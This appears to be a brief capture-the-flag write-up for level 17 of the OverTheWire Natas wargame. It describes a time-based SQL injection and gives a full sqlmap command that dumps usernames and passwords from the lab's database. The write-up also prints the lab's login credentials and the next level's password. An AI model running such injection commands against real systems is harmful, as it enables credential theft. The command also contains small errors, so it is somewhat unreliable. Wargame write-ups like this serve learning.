





**Natas (OTW)**

**Natas 17 Writeup:**

Natas level 16 —>17

On inspecting the source code we see that this too uses a database to retrieve its data and the data can be extracted using sql injection.

In this case we use a sql tool called sqlmap which will help us in retrieving the data from the database, for doing the same we will have to complete the same by constructing a payload that will allow us to inject the database.

**Payload :** python sqlmap.py -u "http://natas17.natas.labs.overthewire.org/" --technique=T --string="" --auth-type=Basic --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw --data "username=natas17" -D natas15 -T users -C username,password --dump --level=5 risk=3 --database=mysql

**Natas18 :** xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
